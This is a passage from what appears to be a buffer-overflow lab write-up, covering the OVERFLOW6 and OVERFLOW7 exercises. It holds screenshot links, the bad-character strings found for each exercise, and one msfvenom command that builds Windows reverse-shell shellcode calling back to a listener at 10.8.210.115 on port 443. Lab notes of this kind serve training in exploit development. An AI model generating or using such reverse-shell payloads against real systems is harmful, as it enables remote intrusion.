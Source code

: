 Final bad char string: "\x00\x08\x2c\xad"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x08\x2c\xad"`

![of6-admin](assets/markdown-img-paste-20210904110036251.png)

## OVERFLOW7
![of7-offset](assets/markdown-img-paste-20210904110300929.png)

![of7bad-chars](assets/markdown-img-paste-20210904110420301.png)

Final bad char string: "\x8c\xae\xbe\xfb"

![of7-complete](assets/markdown-img-paste-20210904111744918.png)
